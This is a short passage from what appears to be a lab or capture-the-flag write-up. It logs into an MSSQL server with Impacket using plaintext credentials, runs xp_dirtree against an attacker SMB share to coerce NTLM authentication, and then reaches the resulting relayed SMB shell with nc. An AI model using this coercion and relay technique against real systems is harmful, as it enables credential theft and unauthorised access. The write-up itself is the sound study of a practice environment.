 and run at mssql

    ➜  Reflection python3 /opt/impacket/examples/mssqlclient.py reflection.vl/web_staging:'Washroom510'@MS01
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(MS01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(MS01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (web_staging  guest@master)> xp_dirtree \\10.8.2.152\relay
    subdirectory   depth   file 

![alt text](<../assets/images/Screenshot_2025-02-04_21_01_04.png>)

[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000

and now we can access with nc
